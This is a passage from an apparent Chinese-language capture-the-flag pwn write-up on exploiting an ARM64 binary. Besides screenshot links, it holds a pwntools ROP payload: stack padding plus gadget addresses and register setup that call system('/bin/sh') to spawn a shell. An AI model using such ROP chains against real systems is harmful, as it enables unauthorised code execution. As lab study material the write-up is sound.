 [![](assets/1700442742-f06e859d954718f26cbc4348f9651be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183817-6b0f12aa-8535-1.png)

下面跳到 main

[![](assets/1700442742-aa70f9b4ed7849dd68668c8a5d20e43e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183820-6cef38e8-8535-1.png)

布置`system('/bin/sh',0,0)`​

```bash
pl = b'a'*0x88 + p64(g1) 
pl+= p64(main) + p64(0x100000000) 
pl+= p64(0) + p64(g2) #x29   x30
pl+= p64(0) + p64(1) #x19 --0   x20 --1
pl+= p64(bss1) + p64(bss1+8) #x21 --addr  x22 --x0
pl+= p64(0) + p64(0) #x23 --x1  x24 --x2
pl+= p64(0) + p64(main) #x29   x30
p.sendlineafter('Hello, World\n',pl)
```

执行 g1

[![](assets/1700442742-d00af5b6077c6942b7d25e8899fa1a73.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183824-6f565db4-8535-1.png)
